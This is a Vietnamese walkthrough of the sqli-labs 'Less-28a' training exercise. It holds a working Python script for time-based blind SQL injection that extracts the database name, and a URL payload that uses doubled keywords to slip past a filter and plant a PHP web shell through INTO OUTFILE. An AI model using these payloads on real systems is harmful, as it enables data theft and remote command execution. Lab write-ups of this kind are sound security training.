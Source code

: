 # Less 28a

Đề bài cho truyền vào ID trên URL

![](../images/sqli-labs/Less-28a/01.png)

Thử truyền vào một giá trị

![](../images/sqli-labs/Less-28a/02.png)

Thử nhập vào một số giá trị có thể gây ra lỗi cho SQL

![](../images/sqli-labs/Less-28a/03.png)

Tôi thấy ở đây lỗi sẽ không được hiển thị lên màn hình

Tôi tiếp tục thử

![](../images/sqli-labs/Less-28a/04.png)

Tôi thấy có thể khai thác được bằng time based

![](../images/sqli-labs/Less-28a/05.png)

Ta có thể sử dụng script

```
import requests
import time
import string

url_1 = "http://192.168.84.233/sqli-labs/Less-28a/?id=1') and if(substr(("
query = "select database()"
url_2 = "),{},1)='{}',sleep(5), false) --+"
url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả là

```
python Sql-time-based.py 
s
e
c
u
r
i
t
y
+
+
+
+
```

Ta có thể khai thác các thông tin khác bằng cách này

Ta có thể thêm 1 đoạn code PHP lên server

```
http://192.168.84.233/sqli-labs/Less-28a/?id=1') union union select select 0,0,"<?php system($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/a1.php' --+
```

![](../images/sqli-labs/Less-28a/06.png)

![](../images/sqli-labs/Less-28a/07.png)